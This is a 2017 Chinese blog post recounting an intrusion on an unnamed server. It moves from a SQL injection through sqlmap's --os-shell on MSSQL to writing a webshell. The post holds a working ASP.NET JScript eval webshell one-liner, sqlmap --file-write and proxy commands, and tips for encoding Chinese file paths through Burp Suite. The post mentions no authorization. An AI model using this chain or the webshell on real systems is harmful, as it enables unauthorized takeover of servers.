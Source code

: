 ```yaml
---
id: 26
title: 一注入到艰难的到上传webshell
date: 2017-08-11T13:21:50+00:00
author: bfpiaoran
layout: post
guid: http://123.207.248.66/?p=26
permalink: /?p=26
categories:
  - 未分类
---
```

故事的起因是一个注入  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-300x151.png" alt="" width="300" height="151" class="alignnone size-medium wp-image-27" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-300x151.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-768x386.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1024x514.png 1024w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-830x417.png 830w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-230x116.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-350x176.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-480x241.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2.png 1236w" sizes="(max-width: 300px) 85vw, 300px" />  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-1-300x143.png" alt="" width="300" height="143" class="alignnone size-medium wp-image-28" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-300x143.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-768x367.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-1024x490.png 1024w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-830x397.png 830w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-230x110.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-350x167.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-480x230.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1.png 1219w" sizes="(max-width: 300px) 85vw, 300px" />  
存在注入点  
神器sqlmap跑之  
得出是mssql数据库  
dba权限 –os-shell  
一切都按照故事的发生着可是  
当我执行net user 的时候问题发生了  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-2-300x85.png" alt="" width="300" height="85" class="alignnone size-medium wp-image-29" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-2-300x85.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-2-230x65.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-2-350x99.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-2-480x136.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-2.png 576w" sizes="(max-width: 300px) 85vw, 300px" />  
百度一看权限不够 好吧 只能上传木马了  
开始找路径  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-3-300x161.png" alt="" width="300" height="161" class="alignnone size-medium wp-image-30" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-3-300x161.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-3-230x123.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-3-350x188.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-3-480x258.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-3.png 518w" sizes="(max-width: 300px) 85vw, 300px" />  
路径名到这一步全是中文的 但是貌似sqlmap查询除了点问题  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-4-300x63.png" alt="" width="300" height="63" class="alignnone size-medium wp-image-31" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-4-300x63.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-4-230x48.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-4-350x74.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-4-480x101.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-4.png 498w" sizes="(max-width: 300px) 85vw, 300px" />  
这里提示没有标签

到这一步就这样了么 不  
苦苦想终于想到了 我可以tree列举目录  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-5-300x227.png" alt="" width="300" height="227" class="alignnone size-medium wp-image-32" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-5-300x227.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-5-230x174.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-5-350x265.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-5-480x363.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-5.png 611w" sizes="(max-width: 300px) 85vw, 300px" />  
中午跑了大概一小时吧  
还没跑完第一个目录  
当时心里是崩溃的  
无奈试试反弹shell吧 第一次用  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-6-300x159.png" alt="" width="300" height="159" class="alignnone size-medium wp-image-33" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-6-300x159.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-6-230x122.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-6-350x186.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-6-480x255.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-6.png 765w" sizes="(max-width: 300px) 85vw, 300px" />  
结果试了好几种办法 无奈总是超时  
这是同事大牛说了句话 你可以查找一个html jpg啥的能搜索到绝对路径啊  
我当时头嗡的一下 一语重地啊  
很快找到绝对目录了

echo ^<^%^@ Page Language=”Jscript”^%^>^<^%eval^(Request.Item^[“value”^]^)^%^> > d:\……（绝对路径）

可是万恶的还是显示路径错误  
在网上找了好多终于有一种说在外部写可以  
sqlmap.py -r d://1.txt –hex –file-write d://2.txt –file-dest d:\\……  
可是又报错了  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-7-300x132.png" alt="" width="300" height="132" class="alignnone size-medium wp-image-34" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-7-300x132.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-7-230x102.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-7-350x155.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-7-480x212.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-7.png 616w" sizes="(max-width: 300px) 85vw, 300px" />  
本来我以为没有上传权限后来才发现还是路径输入错误的问题

怎么办 后来大牛教的新姿势  
sqlmap.py -r d://1.txt &#8211;os&#8211;shell &#8211;hex &#8211;proxy=127.0.0.1:8080  
burpsuite监听之  
发现中文目录是ascii hex编码  
但是有错误 不知道是sqlmap的问题还是 中文的博大精深  
于是抓包把路径重新编码 在发送 成功echo 小马到服务端  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-8-300x157.png" alt="" width="300" height="157" class="alignnone size-medium wp-image-35" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8-300x157.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8-768x403.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8-830x435.png 830w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8-230x121.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8-350x183.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8-480x252.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8.png 891w" sizes="(max-width: 300px) 85vw, 300px" />